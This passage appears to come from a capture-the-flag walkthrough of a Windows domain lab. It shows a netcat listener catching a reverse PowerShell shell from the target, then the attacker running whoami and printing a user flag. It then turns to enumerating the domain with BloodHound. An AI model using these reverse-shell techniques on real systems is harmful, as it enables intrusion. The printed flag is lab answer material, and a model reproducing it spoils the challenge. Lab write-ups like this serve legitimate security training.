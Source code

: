 ![Alt text](Screenshots/file-hosting-upload-exploit-2.png)


After some time, we get a hit to the web server and receive a reverse shell!

```
┌──(kali㉿kali)-[~/Captivity]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.100.132] from (UNKNOWN) [192.168.100.130] 50196
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Apps\Parser> whoami
whoami
capt\web_svc
PS C:\Apps\Parser> type c:\users\web_svc\desktop\user1.txt
type c:\users\web_svc\desktop\user1.txt
ICSD{ab6ccbe923169afb4efc1b5a933af2c8}
PS C:\Apps\Parser> 
```



### Enumerating The Domain
The user we have access to is a standard domain user with minimal permissions. Therefore, we should find ways to escalate our privileges. In domain environments, privilege escalation can be achieved in one of two ways: exploiting a misconfiguration in the domain or escalating locally. Let's start with the former. 

To enumerate the domain, we will use [Bloodhound](https://github.com/BloodHoundAD/BloodHound). BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. 
